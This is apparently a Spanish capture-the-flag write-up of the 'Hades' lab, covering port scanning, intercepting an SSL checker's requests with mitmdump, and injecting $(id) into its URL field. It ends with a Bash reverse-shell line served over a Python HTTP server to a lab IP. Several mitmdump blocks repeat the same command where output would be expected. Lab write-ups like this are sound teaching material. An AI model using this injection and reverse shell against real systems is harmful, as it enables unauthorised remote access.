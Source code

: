```yaml
---
title: "EndGame - Hades"
excerpt: "Se realizará un WriteUp del EndGame retirado Hades que cuenta con máquinas Windows. Desarrollaremos cada una paso a paso con el fin de entender y profundizar en nuevos conceptos."
header:
  teaser: "/assets/images/HADES - ENDGAME (1).gif"
categories:
  - WriteUp
---
```


<img src="{{ page.header.teaser }}" alt="Teaser image" class="teaser-img"> 

Iniciamos la máquina escaneando los puertos con nmap, encontrando solo un puerto abierto (443/tcp) correspondiente a un servicio web por HTTPS.

```bash
❯ nmap 10.13.38.16
Nmap scan report for 10.13.38.16  
PORT    STATE SERVICE
443/tcp open  https
```

En la página web encontramos varias pestañas, una de ellas es "SSL TOOLS", que contiene un checker de certificados SSL.

Usando `mitmdump`, escuchamos las peticiones al puerto 443 para capturar información del certificado.

```bash
❯ sudo mitmdump -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure --set flow_detail=2  
```

Al hacer una petición contra nuestra dirección IP VPN, capturamos la cabecera `User-Agent`, que indica que la petición se emitió desde un comando `curl/7.58.0`.

```bash
❯ sudo mitmdump -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure --set flow_detail=2  
```

Intentamos ejecutar un comando `$(id)` en la dirección web del servidor para obtener el usuario que lo ejecutó.

```bash
❯ sudo mitmdump -p 443 --mode reverse:https://10.13.38.16 --ssl-insecure --set flow_detail=1  
```

Para obtener una shell en la máquina, creamos un archivo `index.html` con una reverse shell en Bash y lo compartimos a través de un servidor HTTP de Python.

```bash
❯ cat index.html
bash -i >& /dev/tcp/10.10.14.10/443 0>&1

❯ sudo python3 -m http.server 80
```

